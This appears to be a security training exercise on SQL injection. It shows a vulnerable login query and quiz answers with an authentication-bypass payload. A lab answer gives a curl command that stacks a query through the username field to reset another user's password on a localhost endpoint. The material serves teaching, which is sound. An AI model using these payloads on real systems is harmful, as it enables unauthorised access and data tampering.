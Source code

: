 ## Exercise 1 - SQL Injection

SQL injection is the ability of an attacker to execute arbitrary SQL into an insecurely created query. They might do this to attempt to gain access to the system, cause destruction by deleting rows, or list vital information that they should not have access to.

The way SQL injections are constructed is by the use of escape characters such as `'` which allows an attacker to escape out of the intended query with their own input and execute another query directly against the database.

For example, let's say we had some logic such as the following (in pseudocode):

```
username := user input from HTML form
password := user input from HTML form
hashedPassword := md5(password)

sql := "select * from admins where username = '" + username "' and password = '" + hashedPassword + "' limit 1"
executeQuery(sql)
```

This is a valid SQL string that is taking user input for username and password, hashing the password and comparing the hashed password to that in the database. This is a very common way to authenticate users to a platform, but is also easily able to be abused.

Let's say we are an attacker and want to execute some arbitrary SQL into this.

1. Which field would we exploit?
2. What string would we place into that field?
3. Who would this log us in as?

<details>
  <summary>Answer</summary>

  1. We would need to chose the `username` field in this case because if we chose the password field, our exploit would be hashed before it reaches the database.
  2. We could use something similar to the following as the `username` field to gain access:
  ```
  admin' or 1=1 limit 1 --
  ```
  **Followup Question: Why do we need the `--`?**
  3. This would log us in as the first admin depending on the sort order.

</details>

# Lab

Try to exploit the endpoint `/login` using a SQL injection. A valid, but unauthorized request looks like this:

```
curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login'
```

Try to gain access as the user `rick`.

<details>
  <summary>Answer</summary>

  Though you may not be able to execute a 1=1 type login, you can still update the password and re-login a separate time

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d "{\"username\":\"rick'; update users set password=md5('password') where username = 'rick' --\", \"password\":\"foo\"}" 'http://localhost:8080/login'
  ```

  We should get an error and that's fine, we've broken the JDBC parser and successfully changed `rick`s password to something we know: `password`. Now try logging in with that password:

  ```
  $ curl -XPOST -H 'Content-Type: application/json' -d '{"username":"rick", "password":"password"}' 'http://localhost:8080/login' | jq .
  ```

</details>
